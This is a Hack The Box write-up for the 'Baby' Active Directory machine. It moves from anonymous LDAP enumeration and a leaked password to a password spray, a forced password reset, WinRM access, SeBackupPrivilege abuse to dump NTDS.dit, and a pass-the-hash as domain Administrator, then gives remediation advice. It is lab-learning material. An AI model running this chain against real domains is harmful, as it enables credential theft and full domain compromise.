



# HTB — Baby (Medium, Windows)

## Overview

Baby is a Windows Active Directory machine. An anonymous LDAP bind leaks an initial password stored in a user's `description` attribute. A password spray identifies a second account whose expired password is reset remotely, giving a WinRM foothold. Privilege escalation abuses the account's `SeBackupPrivilege` to back up the `NTDS.dit` database and dump the domain Administrator hash for a pass-the-hash to full domain compromise.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC 10.129.234.71
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl)
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
Service Info: Host: BABYDC; OS: Windows
````

The host is the domain controller `BABYDC` for `baby.vl`, exposing LDAP, RDP, and WinRM.

### LDAP enumeration

The LDAP service allows an anonymous bind, so user objects can be enumerated directly:

````
$ ldapsearch -x -b "dc=baby,dc=vl" "(objectClass=user)" -H ldap://BabyDC.baby.vl
````

The account **Teresa.Bell** carries a revealing `description` attribute:

````
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
sAMAccountName: Teresa.Bell
description: Set initial password to <REDACTED>
logonCount: 0
````

The `description` field discloses an initial password, and `logonCount: 0` indicates the account has never logged in.

## Foothold

### Password spray and forced password change

Spraying the leaked password by `CN` returned nothing, so I re-queried LDAP for all accounts and sprayed by `sAMAccountName`. One account matched — **Caroline.Robinson** — but the password was expired (`STATUS_PASSWORD_MUST_CHANGE`):


An expired password can be changed remotely over SMB/Kerberos without any further access, so I reset it:

````
$ smbpasswd -r baby.vl -U Caroline.Robinson
````



### WinRM access

The new password authenticated over WinRM:

````
$ evil-winrm -i 10.129.234.71 -u Caroline.Robinson -p '<REDACTED>'
*Evil-WinRM* PS> whoami
baby\caroline.robinson
````

## Privilege Escalation

### SeBackupPrivilege on a Domain Controller → NTDS.dit → pass-the-hash

The account holds **`SeBackupPrivilege`**, which grants read access to any file for backup purposes, bypassing ACLs via backup semantics:



On a **domain controller**, the `SAM` hive does not contain the domain `Administrator` — domain accounts live in the Active Directory database, **`NTDS.dit`**. The privilege is used to back up `NTDS.dit` along with the `SYSTEM` hive (which holds the boot key needed to decrypt it).

`NTDS.dit` is locked by the running DC, so it is read through backup semantics — by creating a volume shadow copy with `diskshadow` and copying the file from the snapshot, or with `robocopy /b` (backup mode) — while `SYSTEM` is exported with `reg save`. The hives are then dumped offline, recovering the Administrator NTLM hash:

````
$ impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
````

Passing the hash authenticated as the domain Administrator — full domain compromise:

````
$ evil-winrm -i 10.129.234.71 -u Administrator -H <REDACTED>
````



## Remediation

- **Anonymous LDAP / secrets in attributes:** Disable anonymous binds; never store passwords in `description` fields.
- **Password management:** Don't reuse a shared initial password across accounts; deliver unique credentials out-of-band.
- **SeBackupPrivilege on a DC:** Grant backup rights only to dedicated backup accounts — on a DC this privilege is equivalent to full domain compromise via `NTDS.dit`.
````
````